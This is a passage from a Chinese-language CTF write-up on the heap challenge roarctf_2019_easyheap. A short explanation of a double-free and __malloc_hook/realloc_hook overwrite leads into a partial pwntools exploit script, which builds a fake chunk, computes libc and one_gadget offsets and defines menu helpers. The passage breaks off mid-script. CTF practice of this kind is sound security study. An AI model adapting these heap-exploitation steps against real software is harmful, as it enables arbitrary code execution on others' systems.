 之后呢，我们就能传入onegadget啦

方法一样的构造，先double free 然后写入地址我们这里打malloc_hook然后用realloc_hook压栈

exp:

```python
#coding:utf8
from pwn import *
 
sh = process('./roarctf_2019_easyheap')
#sh = remote('node4.buuoj.cn',25960)
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc=ELF('libc-2.23.so')
malloc_hook_s = libc.symbols['__malloc_hook']
realloc_s = libc.sym['realloc']
one_gadget_s = 0xf1147
#one_gadget_s = 0xcd173
elf = ELF('./roarctf_2019_easyheap')
read_got = elf.got['read']
fake_chunk_addr = 0x0000000000602060
fake_chunk = p64(0) + p64(0x71)
fake_chunk = fake_chunk.ljust(0x20,'\x00')
sh.sendafter('please input your username:',fake_chunk)
sh.sendafter('please input your info:','hrp\n')
 
def add(size,content,blind = False):
   if not blind:
      sh.recvuntil('>>')
   else:
      sleep(0.3)
   sh.sendline('1')
   if not blind:
      sh.recvuntil('input the size')
   else:
      sleep(0.3)
   sh.sendline(str(size))
   if not blind:
      sh.recvuntil('please input your content')
   else:
      sleep(0.3)
   sh.send(content)
 
def delete(blind = False):
   if not blind:
      sh.recvuntil('>>')
   else:
      sleep(0.3)
   sh.sendline('2')
 
def show():
   sh.sendlineafter('>>','3')
 
def calloc_A0(content,blind = False):
   if not blind:
      sh.recvuntil('>>')
   else:
      sleep(0.3)
   sh.sendline('666')
   if not blind:
      sh.recvuntil('build or free?')
   else:
      sleep(0.3)
   sh.sendline('1')
   if not blind:
```